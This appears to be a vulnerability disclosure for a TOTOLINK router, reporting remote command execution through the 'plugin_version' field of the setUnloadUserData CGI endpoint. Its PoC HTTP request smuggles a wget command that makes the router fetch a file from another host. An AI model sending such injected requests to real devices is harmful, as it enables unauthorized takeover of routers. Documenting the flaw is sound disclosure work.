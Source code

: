 ## RCE-upgrade.so-setUnloadUserData-plugin_version
## Firmware

https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/139/ids/36.html
![image](https://github.com/user-attachments/assets/1f19d9d6-bbe6-409f-8085-a650f1d3f616)


![image](https://github.com/user-attachments/assets/6b9416f3-f2dc-42f7-9a01-b0506bbc286b)
![94929ab1de737d7e19968cd6acdbdb6](https://github.com/user-attachments/assets/5c0ea937-4248-483c-b127-ac30462fea52)


![image](https://github.com/user-attachments/assets/4bb5278b-cb59-467b-bf9b-6116a30c0f02)
## POC
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 192.168.0.254

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 107

Origin: http://192.168.0.254

Connection: keep-alive

Referer: http://192.168.0.254/adm/network_daig.asp?timestamp=1673492576260



{"topicurl" :"setting/setUnloadUserData",

"plugin_version" : "a;wget http://192.168.0.253:8000/123.txt;a"}
```
